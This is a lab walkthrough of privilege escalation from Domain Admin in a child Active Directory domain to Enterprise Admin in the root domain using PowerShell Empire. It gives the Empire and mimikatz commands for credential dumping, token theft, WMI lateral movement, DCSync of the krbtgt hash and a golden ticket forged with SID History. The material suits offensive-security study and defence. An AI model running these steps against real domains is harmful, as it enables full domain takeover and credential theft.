# From Domain Admin to Enterprise Admin

This lab is based on an [Empire Case Study](https://enigma0x3.net/2016/01/28/an-empire-case-study/) and its goal is to get more familiar with some of the concepts of Powershell Empire and its modules as well as Active Directory concepts such as Forests, Parent/Child domains and Trust Relationships and how they can be abused to escalate privileges.

The end goal of this lab is a privilege escalation from DA on a child domain to EA on a root domain.

## Domain Trust Relationships

Firstly, some LAB setup - we need to create a child domain controller as well as a new forest with a new domain controller.

### Parent / Child Domains

After installing a child domain `red.offense.local` of a parent domain `offense.local`, Active Directory Domains and Trusts show the parent-child relationship between the domains as well as their default trusts:



Trusts between the two domains could be checked from powershell by issuing:

```csharp
Get-ADTrust -Filter *
```

The first console shows the domain trust relationship from `offense.local` perspective and the second one from `red.offense.local`. Note the the direction is `BiDirectional` which means that members can authenticate from one domain to another when they want to access shared resources:



Similar, but very simplified information could be gleaned from a native Windows binary:

```
nltest /domain_trusts
```



Powershell way of checking trust relationships:

```csharp
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```


### Forests

After installing a new DC `dc-blue` in a new forest, let's setup a one way trust between `offense.local` and `defense.local` domains using controllers `dc-mantvydas.offense.local` and `dc-blue.defense.blue`.

First of, setting up conditional DNS forwarders on both DCs:



Adding a new trust by making `dc-mantvydas` a trusted domain:



Setting the trust type to `Forest`:



Incoming trust for `dc-mantvydas.offense.local` is now created:



Testing nltest output:



### Forests Test

Now that the trust relationship is set, it is easy to check if it was done correctly. What should happen now is that resources on defense.local (trusting domain) should be available to members of offense.local (trusted domain).

Note how the user on `dc-mantvydas.offense.local` is not able to share a folder to `defense\administrator` (because `offense.local` does not trust `defense.local`):



However, `dc-blue.defense.local`, trusts `offense.local`, hence is able to share a resource to one of the members of `offense.local` - forest trust relationships work as intended:

.png>)

## Back to Empire: From DA to EA

Assume we got our first agent back from the computer `PC-MANTVYDAS$`:



### Credential Dumping

Since the agent is running withing a high integrity process, let's dump credentials - some interesting credentials can be observed for a user in `red.offense.local` domain:



Listing the processes with `ps`, we can see a number of process running under the `red\spotless` account. Here is one:

.png>)

The domain user is of interest, so we would use a `usemodule situational_awareness/network/powerview/get_user` command to enumerate the red\spotless user and see if it is a member of any interesting groups, however my empire instance did not seem to return any results for this command. For this lab, assume it showed that the user red\spotless is a member of `Administrators` group on the `red.offense.local` domain.

### Token Manipulation

Let's steal the token of a process with PID 4900 that runs with `red\spotless` credentials:&#x20;


### DC Recon

After assuming privileges of the member red\spotless, let's get the Domain Controller computer name for that user. Again, my Empire instance is buggy, so I used a custom command to get it:

```csharp
shell [DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers | ForEach-Object { $_.Name }
```



Check if we have admin access to the `DC-RED`:

```csharp
shell dir \\dc-red.red.offense.local\c$
```



We are lucky, the user is a domain admin as can be seen from the above screenshot.

### Lateral Movement

Let's get an agent from `DC-RED` - note that the credentials are coming from the previous dump with mimikatz:

```csharp
usemodule lateral_movement/invoke_wmi
```



We now have the agent back, let's just confirm it:



### Checking Trust Relationships

Once in DC-RED, let's check any domain trust relationships:

```csharp
usemodule situational_awareness/network/powerview/get_domain_trust
```



We see that the `red.offense.local` is a child domain of `offense.local` domain, which is automatically trusting and trusted (two way trust/bidirectional) with `offense.local` - read on.

### From DA to EA

We will now try to escalate from DA in `red.offense.local` to EA in `offense.local`. We need to create a golden ticket for `red.offense.local` and forge it to make us an EA in `offense.local`.

First of, getting a SID of a `krbtgt` user account in `offense.local`:

```csharp
(Empire: powershell/situational_awareness/network/powerview/get_domain_trust) > usemodule powershell/management/user_to_sid
(Empire: powershell/management/user_to_sid) > set Domain offense.local
(Empire: powershell/management/user_to_sid) > set User krbtgt
(Empire: powershell/management/user_to_sid) > run
```



After getting a SID of the `offense.local\krbtgt`, we need to get a password hash of the `krbtgt` account in the compromised DC `DC-RED` (we can extract it since we are a domain admin in `red.offense.local`):

```csharp
(Empire: powershell/management/user_to_sid) > usemodule powershell/credentials/mimikatz/dcsync
(Empire: powershell/credentials/mimikatz/dcsync) > set user red\krbtgt
(Empire: powershell/credentials/mimikatz/dcsync) > execute
```



### Golden Ticket for Root Domain

We can now generate a golden ticket for `offense.local\Domain Admins`since we have the SID of the `offense.local\krbtgt` and the hash of `red.offense.local\krbtgt`:

```csharp
usemodule powershell/credentials/mimikatz/golden_ticket
(Empire: powershell/credentials/mimikatz/golden_ticket) > set user hakhak
(Empire: powershell/credentials/mimikatz/golden_ticket) > set sids S-1-5-21-4172452648-1021989953-2368502130-519
(Empire: powershell/credentials/mimikatz/golden_ticket) > set CredID 8
(Empire: powershell/credentials/mimikatz/golden_ticket) > run
```

Note how during `sids` specification, we replaced the last three digits from 502 (krbtgt) to 519 (enterprise admins) - this part of the process is called a SID History Attack:

```csharp
set sids S-1-5-21-4172452648-1021989953-2368502130-519
```



The `CredID` property in the dcsync module comes from the Empire's credential store which previously got populated by our mimikatz'ing:


We now should be Enterprise Admin in `offense.local`and we can test it by listing the admin share `c$` of the `dc-mantvydas.offense.local:`

```csharp
shell dir \\dc-mantvydas\c$
```



### Agent from Root Domain

For the sake of fun and wrapping this lab up, let's get an agent from the `dc-mantvydas`:



## References





{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc731404(v%3dws.10)" %}






